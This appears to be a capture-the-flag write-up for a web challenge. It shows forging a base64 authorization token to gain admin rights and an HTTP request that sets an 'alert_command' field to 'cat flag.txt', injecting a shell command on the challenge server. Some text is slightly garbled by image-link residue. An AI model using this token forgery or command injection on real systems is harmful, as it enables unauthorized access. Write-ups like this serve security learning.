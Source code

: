 ![alt text](_attachments/plantopiaa.png)


Acc![alt text](plantopiaa.png)he `auth` cookie set during our login. We can set `Authorization: dGVzdHVzZXIuMC4xNzMwNTgzODIw` to access the API. which is just base64 encoded from `testuser.0.1730583820`

Since most of these functionality require admin privileges. I played around and just changed the value from `testuser` to `admin` and from `0` to `1`. and I successfully accessed the `/api/admin/logs`

![alt text](_attachments/logs.png)

From there its just playing around with the admin functionalities. We can see that we can change the commands in the `/api/plants/1/edit`


```http
POST /api/plants/1/edit HTTP/1.1
Host: challenge.ctf.games:32308
Authorization: YWRtaW4uMS4xNzMwNTgzODIw
Content-Length: 139
Content-Type: application/json

{
  "description": "A beautiful sunflower.",
  "sunlight_level": 80,
  "watering_threshold": 50,
  "alert_command": "cat flag.txt"
}

```
